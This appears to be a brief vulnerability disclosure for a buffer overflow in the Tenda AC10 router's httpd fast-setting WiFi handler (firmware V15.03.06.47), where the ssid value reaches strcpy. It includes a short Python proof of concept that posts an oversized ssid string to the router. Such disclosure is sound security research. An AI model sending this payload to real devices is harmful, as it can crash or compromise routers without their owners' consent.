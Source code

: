 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](1.png)

get value from ssid ,then call strcpy, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/fastsettingwifiset"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
